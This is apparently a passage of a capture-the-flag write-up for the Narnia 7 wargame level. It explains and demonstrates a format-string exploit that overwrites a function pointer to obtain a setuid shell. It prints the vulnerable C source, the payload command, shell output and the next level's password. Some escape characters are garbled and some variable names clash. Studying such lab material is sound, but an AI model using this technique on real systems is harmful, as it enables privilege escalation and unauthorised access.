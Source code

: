 Looking at the code for goofunction, we see that the function simply prints out a message and exits. Interestingly, toward the last line of the vuln function, the snprintf function is called and uses local_84 as an argument. Therefore, it can be deduced that this program is most likely vulnerable to a format string exploit. Seeing as hackedfunction calls /bin/sh with setuid privileges, if the local_88 variable is overwritten to point to the address of hackedfunction, then we will receive a shell as the narnia8 user.

### Format String Exploit

The methodology to exploiting this binary is the same as the one outlined in [Narnia 2](#h.e4mp3rcoeyar). We can construct a payload that will look like the following:

(address to local_84) + %PADDINGx

The padding will correspond to the decimal value of the address for hackedfunction so as to overwrite the value of the local_84 with the appropriate address. Note that the program will convert this decimal value into hexadecimal, and the hackedfunction will therefore be executed.

From executing the binary, we saw that the hacked address is located at 0x8048724. Converting this hexadecimal value to decimal, we see that it is equivalent to 134514468. Furthermore, the binary printed out the value for local_84 at 0xffffd568. Therefore, a string comprised of the address to this variable in little endian format (as this binary is in little endian) followed by a padding of 134514468 will result in the execution of hackedfunction:

{% highlight bash %}
narnia7@narnia:/narnia$ ./narnia7 $(python -c "print 'x58xd5xffxff'+'%134514468x%n'")                                                                                    
goodfunction() = 0x80486ff  
hackedfunction() = 0x8048724  
  
before : ptrf() = 0x80486ff (0xffffd558)  
I guess you want to come to the hackedfunction...  
Way to go!!!!$ whoami  
narnia8

$ cat /etc/narnia_pass/narnia8  
mohthuphog
{% endhighlight %}

### Source Code

{% highlight c %}
#include <stdio.h>  
#include <stdlib.h>  
#include <string.h>  
#include <stdlib.h>  
#include <unistd.h>  
  
int goodfunction();  
int hackedfunction();  
  
int vuln(const char *format){       char buffer[128];       int (*ptrf)();       memset(buffer, 0, sizeof(buffer));       printf("goodfunction() = %pn", goodfunction);       printf("hackedfunction() = %pnn", hackedfunction);  
  
       ptrf = goodfunction;       printf("before : ptrf() = %p (%p)n", ptrf, &ptrf);       printf("I guess you want to come to the hackedfunction...n");  
       sleep(2);  
       ptrf = goodfunction;       snprintf(buffer, sizeof buffer, format);       return ptrf();  
}int main(int argc, char **argv){       if (argc <= 1){               fprintf(stderr, "Usage: %s <buffer>n", argv[0]);               exit(-1);  
       }       exit(vuln(argv[1]));  
}  
  
int goodfunction(){       printf("Welcome to the goodfunction, but i said the Hackedfunction..n");  
       fflush(stdout);       return 0;  
}  
  
int hackedfunction(){       printf("Way to go!!!!");  
           fflush(stdout);  